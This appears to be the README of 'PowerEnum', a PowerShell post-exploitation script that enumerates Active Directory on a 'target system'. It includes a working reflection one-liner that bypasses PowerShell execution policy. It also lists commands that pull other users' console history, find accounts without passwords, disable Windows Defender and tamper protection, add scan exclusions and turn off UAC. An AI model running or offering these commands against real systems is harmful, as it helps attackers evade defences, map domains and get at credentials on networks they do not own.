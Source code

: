 # PowerEnum
Powershell script for enumerating Active Directory. Nothing new or ground breaking, just a cool project to further develop my knowledge of powershell, Windows and specifically AD.

# Usage

Download the **powerenum.ps1** script and get it onto your target system. This can be done multiple ways which you can figure out for yourself.

Once on the system you will need to import the script to be able to use it.

```posh
Import-Module powerenum.ps1
```

You will likely need to change the execution policy to run this script:

```posh
Set-ExecutionPolicy Bypass
```

If this does not work, you can run the following code to disable execution policy:

```posh
# Create the function
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
# Execute the function
Disable-ExecutionPolicy
```

### Commands

##### Domain Information Gathering
```posh
# Retrieve some initial information about the domain including domain info and connected systems
Get-Basics 
# Get-Basics has 3 optional arguments
Get-Basics -IPAddress:$true -DomainInformation:$true -ConnectedSystems:$true
# Find listening ports and the service running on that port
Get-Listening

# Retrieve all the admins in the domain
Get-Admins
# Retrieve all OUs in the domain
Get-OUs
# Retrieve all groups in the domain
Get-AllGroups
# Retrieve all users in the domain
Get-AllUsers

# Retrieve all users who don't require a password
Get-NoPass
# Retrieve console history for a specified user
Get-History
# Disable Windows defender
Disable-Defender
# Add a folder to exclude from defender scans
Add-DefenderExclusion -Path
# Disable tamper protection on the system
Disable-TamperProtection
# Disable UAC
Disable-UAC
```
